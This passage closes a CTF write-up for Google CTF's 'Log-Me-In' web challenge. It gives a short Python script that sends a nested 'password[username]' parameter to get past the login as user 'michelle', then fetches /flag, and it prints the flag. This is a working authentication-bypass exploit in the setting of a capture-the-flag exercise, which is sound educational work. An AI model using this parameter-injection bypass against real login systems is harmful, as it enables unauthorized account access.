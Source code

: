 From here, you can just take the cookie you received, and use that to visit
`/flag`.  
  

P.S. you can write a python script for the exploit, like the one given below:

```py  
import requests  
import re

url = lambda path: 'https://log-me-in.web.ctfcompetition.com' + path

s = requests.Session()

payload = {  
   "username": "michelle",  
   "password[username]": "michelle",  
   "csrf": "",  
}

r = s.post(url('/login'), data=payload)

r = s.get(url('/flag'))

if re.search(r'CTF{.*}', r.text):  
   print(r.text)

```

You can run this script and use `grep` to find the flag.

```bash  
$ python solve.py | grep CTF  

Flag: CTF{a-premium-effort-deserves-a-premium-flag}

  
```

The flag is:

```  
CTF{a-premium-effort-deserves-a-premium-flag}  
```  

Original writeup (https://github.com/csivitu/CTF-Write-
ups/tree/master/Google%20CTF/Web/Log-Me-In).